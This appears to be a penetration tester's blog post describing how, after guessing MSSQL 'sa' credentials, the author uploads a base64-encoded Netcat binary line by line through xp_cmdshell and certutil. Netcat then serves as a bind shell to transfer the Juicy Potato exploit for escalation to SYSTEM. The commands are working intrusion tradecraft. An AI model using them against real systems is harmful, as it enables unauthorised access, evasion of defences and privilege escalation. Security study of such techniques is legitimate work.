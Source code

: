 ```yaml
---
layout: post
title: Exfiltrating files using MSSQL
excerpt_separator: <!--more-->
---
```


A scenario where we have to upload files to a server whose MSSQL credentials we know (so we have remote code execution) but the server is in other network. For that, we will transfer the base64-encoded file line by line.

<!--more-->


We have a jump server which allows us to access a Kali machine, used to scan a remote network. 

![img1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/mssql-exfiltration/image1.png)

From Kali, we see there is a MSSQL server and after guessing the credentials of the user "sa", we have RCE there. 

![img2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/mssql-exfiltration/image2.png)

However, the firewall rules make it impossible to download files from the jump server, the Kali machine or Internet:

![img3](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/mssql-exfiltration/image3.png)

We have a foothold in the netwotk but the firewalls configuration and network segmentation make it a little difficult to continue. However, privilege escalation in this machine would be easy, as the account running the MSSQL server is a service account with the *SeImpersonatePrivilege* privilege and the OS is Windows Server 2016, being possible to escalate to SYSTEM with the Juicy Potato exploit:

![img4](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/mssql-exfiltration/image4.png)

So, how could we get a reverse shell or upload the Juicy Potato binary? If we check blogs [like this one](https://book.hacktricks.xyz/exfiltration), they mention certutil to base64-encode and then decode the files:

```
certutil -encode payload.dll payload.b64
certutil -decode payload.b64 payload.dll
```

So the idea is to encode a Windows binary, paste the content with mssqlclient.py and then decode it in the server, hopefully not triggering an antivirus, EDR or similar in the process. 

So first let's encode a Netcat binary:

```
certutil -encode nc.exe nc.txt
```

Generating a file like this one:

![img5](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/mssql-exfiltration/image5.png)

But with the mssqlclient.py script I had problems with the length of the encoded payload. However, after pasting the payload in a Linux machine, the payload can be splitted and generate commands to upload the file line by line:

```
while read p; do echo "xp_cmdshell echo $p >> c:\\\\windows\\\\tasks\\\\nc.txt"; echo; done < /tmp/nc.txt > commands.txt
```

We get a file ("commands.txt") with one command per line of the encoded payload:

![img6](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/mssql-exfiltration/image6.png)

After copying all the content of the file and pasting it in the command line with a mssqlclient.py session open, we will generate a text file in c:\windows\tasks, which can be decoded then with:

```
xp_cmdshell certutil -decode c:\windows\tasks\nc.txt c:\windows\tasks\nc.exe
```

Luckily, after uploading this file I realized that there was not any antivirus in the machine and the Windows firewall was disabled, so it was as easy as uploading the file using bind shells instead of reverse shells. So in the compromised server the command was:

```
xp_cmdshell c:\windows\tasks\nc.exe -lvp 8888 > c:\windows\tasks\juicypotato.exe
```

And from the Kali machine:

```
nc -nv 10.100.10.10 8888 < juicypotato.exe
```

With those two binaries and being able to create bind shells, it is fairly easy to become SYSTEM, for example creating a second bind shell. And with that, we would have succeded!



